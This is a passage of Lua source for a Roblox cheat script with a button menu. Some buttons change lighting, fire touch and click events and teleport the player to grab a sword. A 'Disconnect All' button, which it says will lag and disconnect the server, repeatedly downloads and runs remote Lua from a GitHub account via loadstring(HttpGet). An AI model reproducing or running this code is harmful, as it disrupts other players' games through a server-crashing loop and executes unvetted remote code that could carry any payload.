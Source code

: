 Fun:AddButton({
Name = "(CLIENT SIDE) Night Mode",
Callback = function()
game:GetService("Lighting").ClockTime = 0
end})

Fun:AddButton({
Name = "Reset Lighting",
Callback = function()
game:GetService("Lighting").ClockTime = 14
end})

Other:AddButton({
Name = "Get Sword",
Callback = function()
local playerHead = game.Players.LocalPlayer.Character.Head
for i, v in pairs(game:GetService("Workspace").TopSection.PortalTeleportationModel.PortalDoor:GetDescendants()) do
    if v.Name == "TouchInterest" and v.Parent then
        firetouchinterest(playerHead, v.Parent, 0)
        wait(0.1)
        firetouchinterest(playerHead, v.Parent, 1)
        break
        end
end
wait(0.5)
fireclickdetector(game:GetService("Workspace").WinnersRoomServerSide.SwordGiver.ClickPart.ClickDetector)
wait(0.4)
game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(-117.496094, 253.999847, 49.1546021)
end})

Crashing:AddButton({
Name = "Disconnect All (3-4 min)",
Callback = function()
OrionLib:MakeNotification({
	Name = "ACTIVATED!",
	Content = "THIS WILL LAG AND DISCONNECT THE SERVER (not really recommended on free exploits much)",
	Image = "rbxassetid://4483345998",
	Time = 13
})
_G.dissss = true
while _G.dissss == true do
wait()
loadstring(game:HttpGet('https://raw.githubusercontent.com/dudeididntliterally/owihgfrwpoghwortu/main/asijofgwrf.lua'))()
wait()
loadstring(game:HttpGet('https://raw.githubusercontent.com/dudeididntliterally/owihgfrwpoghwortu/main/wkjfrgewer.lua'))()
wait()
loadstring(game:HttpGet('https://raw.githubusercontent.com/dudeididntliterally/owihgfrwpoghwortu/main/asijofgwrf.lua'))()
wait()
loadstring(game:HttpGet('https://raw.githubusercontent.com/dudeididntliterally/owihgfrwpoghwortu/main/wkjfrgewer.lua'))()
wait()
loadstring(game:HttpGet('https://raw.githubusercontent.com/dudeididntliterally/owihgfrwpoghwortu/main/asijofgwrf.lua'))()
wait()
loadstring(game:HttpGet('https://raw.githubusercontent.com/dudeididntliterally/owihgfrwpoghwortu/main/wkjfrgewer.lua'))()
wait()
loadstring(game:HttpGet('https://raw.githubusercontent.com/dudeididntliterally/owihgfrwpoghwortu/main/asijofgwrf.lua'))()